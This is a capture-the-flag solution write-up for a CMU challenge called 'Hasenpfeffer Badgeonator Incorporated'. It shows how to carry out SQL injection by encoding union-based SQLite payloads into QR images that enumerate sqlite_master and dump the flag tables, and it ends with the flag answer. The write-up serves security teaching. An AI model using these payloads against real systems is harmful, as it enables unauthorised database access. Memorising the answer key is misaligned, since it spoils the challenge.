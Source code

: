 <img src="../../../../../logo.png" height="250px">

# Hasenpfeffer Badgeonator Incorporated

## Solution

To solve, player will have to inject via qr codes. We recommend pypy's qrcode
(installed by `pip3` during challenge setup as part of `requirements.txt`).

First, check if the server might be vulnerable to sql injection via QR images?

```
$ qr "'" > ~/Desktop/0.png
```

It is! Now lets get table names:

```
$ qr "' OR '1'='1' union SELECT 1, 2, 3, tbl_name FROM sqlite_master --" > ~/Desktop/1.png
```

Once you find the table, get the values:

```
$ qr "' OR '1'='1' union SELECT 1, 2, 3, value FROM flag --" > ~/Desktop/2.png
```

Now that we have the table name, lets dump the values:

```
$ qr "' OR '1'='1' union SELECT 1, 2, id, value FROM shotz --" > ~/Desktop/3.png
```

The flag is a lat/lng coordinate.

Flag - `43°35'26''N 84°11'52''W`

## License
Copyright 2020 Carnegie Mellon University. See the [LICENSE.md](../../../LICENSE.md) file for details.